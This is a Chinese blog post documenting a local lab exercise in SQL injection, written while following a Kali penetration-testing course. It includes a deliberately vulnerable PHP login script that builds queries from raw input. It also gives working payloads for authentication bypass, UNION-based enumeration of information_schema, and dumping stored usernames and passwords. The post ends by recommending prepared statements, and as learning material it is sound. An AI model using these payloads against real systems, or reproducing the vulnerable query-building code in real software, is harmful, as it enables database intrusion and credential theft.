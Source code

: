 ```yaml
---
layout: article
title: SQL injection 学习
date: 2017-05-22 02:37:43
categories: 安全
tags:
- 网络安全
- sql injection
img: /images/2018-01-31-11-20-webseq.jpg
---
```


在国哥的安排下，对着 kali渗透测试之 SQL injeciton 视频教程一顿撸（虽然没什么卵用），记录下来自己的一些实验过程和经历。

## 提前准备

- 本地的 lemp 环境，搭建可参考：[Centos 7 Nginx + php + mysql Web服务器搭建](https://wanghaichi.github.io/2017/01/21/lempServer/) 和 [Unbuntu16.04 Nginx + php + mysql Web服务器搭建](https://wanghaichi.github.io/2017/03/10/lemp-Ubantu/) 当然 xampp 也是极好的。
- 用于攻击的 php 脚本和数据库，下面会给出

## 编写脚本

找个能够访问的地方，编写如下 php 脚本
```php
<html>
	<head></head>
	<body>
		<form action="./login.php" method="post">
			ID<input name="id" type="text"><br/>
			<input type="submit" value="提交">
		</form>
		<div>
		<p>
			<?php
				if($_POST['id']){
					$connection = new mysqli("localhost", "root", "hhxxttxs", "test");
					if($connection->connect_errno){
						 echo "Failed to connect to MySQL: (" . $connection->connect_errno . ") " . $connection->connect_error;
					}
					$id = $_POST['id'];
					// echo $name."<br/>".$password."<br/>";
					$sql = "SELECT name, password FROM `user` WHERE `id` = '". $id . "'";
					echo $sql."<br/>";
					$res = $connection->query($sql);
					// var_dump($res);
					while($row = $res->fetch_assoc() ){
						echo "姓名: ". $row['name'] . "<br/>";
						echo "密码: ". $row['password'] . "<br/>";
					}
				}
			?>
		</p>
		</div>
	</body>
</html>
```
在本地新建数据库 `test`，新建 user 表

![Picture](/images/2017-5-22-10-45.png)

## SQL injection 简介

### 原理

> 服务器端程序将用户输入参数作为参数作为查询条件，直接拼接SQL语句，并将查询结果返回给客户端浏览器

对于一般处理数据库查询的语句，客户端会将用户输入的参数使用`''`包裹之后，形成 SQL 查询字符串，交给 SQL 服务去处理。对于没有进过数据处理的脚本，很容易产生 SQL 注入。

我们可以手动输入 ` ' " % ( ) `这些在 SQL 语法中有特殊含义的字符，进行 SQL 注入攻击。

### 用户登录判断
  - `SELECT * FROM users WHERE user='uname' AND password='pass'`
  - `SELECT * FROM users WHERE user='name' AND password='' OR ''=''`

通过以上语句可以跳过用户验证，因为第二个 SQL 语句恒为真。

### 手动漏洞挖掘--SQL注入

注意下面的所有事例中 + 表示空格，不加空格 `--` 起不了注释的作用。

#### 基于报错的检测方法

- `' " % ( )`

#### 基于布尔的检测

- `1' and '1'='1`   /   `1' and '1`
- `1' and '1'='1`   /   `1' and '0`

#### 表列数 / 显示信息位于哪一列

- `' order by 9--+`
- select * 时表字段数=查询字段数

可以通过这个方法判断当前表中有多少列，但需要脚本中的 SQL 语句使用 `*` 作为查询域

#### 联合查询

- `' union select 1,2--+`

![Picture](/images/2017-5-22-10-35.png)

- `' union all select database(),2--+` // 显示数据库名

![Picture](/images/2017-5-22-10-36.png)

- `' union all select user(), version()--+` // 显示用户，数据库版本

![Picture](/images/2017-5-22-11-02.png)

- `' union select database(), substring_index(USER(),"@",1)--`

![Picture](/images/2017-5-22-11-04.png);

#### 全局函数

- `@@datadir @@hostname @@VERSION @@version_compile_os--+`

![Picture](/images/2017-5-22-11-09.png)

![Picture](/images/2017-5-22-11-10.png)

![Picture](/images/2017-5-22-11-11.png)

#### 当前库

- `database()`

#### ASCII转字符

- `char()`

char 函数可以将 ascii 码转换成对应的字符。

#### 连接字符串

- `CONCAT_WS(CHAR(32,58,32),user(),database(),version())`

![Picture](/images/2017-5-22-11-14.png)

这里使用 CONCAT_WS 函数，将三个数据库信息拼接在一起，同时使用 ` : ` 进行分割。

#### 计算哈希

- `md5()`

可以使用目标服务器进行大规模的数据计算

#### Mysql 数据结构

- information_schema

#### 所有库所有表 / 统计库中表的数量

- `' union select table_name, table_schema from information_schema.tables--+`

![Picture](/images/2017-5-22-11-17.png)

- `' union select table_schema,count(*) FROM information_schema.tables group by table_schema --`

![Picture](/images/2017-5-22-11-23.png)

#### test库中的表名

- `' union select table_name, table_schema from information_schema.tables where table_schema='test'--+`

![Picture](/images/2017-5-22-11-26.png)

#### Users表中的所有列（user_id first_name last_name user password avatar）

- `' union select table_name, column_name from information_schema.columns where table_schema='test' and table_name='user'--+`

![Picture](/images/2017-5-22-11-27.png)

可以看到 user 表中的所有列名都被列出来了！

#### 查询 user password 列的内容

- `' union select name, password from test.user--+`

![Picture](/images/2017-5-22-11-29.png)

- `' union select null, concat(name, 0x3a, password) from user--+`

![Picture](/images/2017-5-22-11-30.png)

## 小结

可以看到一个简单的 SQL injection 漏洞，几乎可以攻击所有的数据库。更有甚者还可以直接攻击服务器（下回说）。因此在编写代码时一定要注意 SQL 语句的过滤。

目前看来，所有的过滤手段都是不可靠的，都有方法可以通过截断、欺骗等进行攻击。因此正确的操作应该是用 SQL 预编译，进行参数绑定，这样可以保证 SQL 的查询语句不被篡改。具体方法可以参见 [mysqli Prepared Statements](http://php.net/manual/zh/mysqli.quickstart.prepared-statements.php)
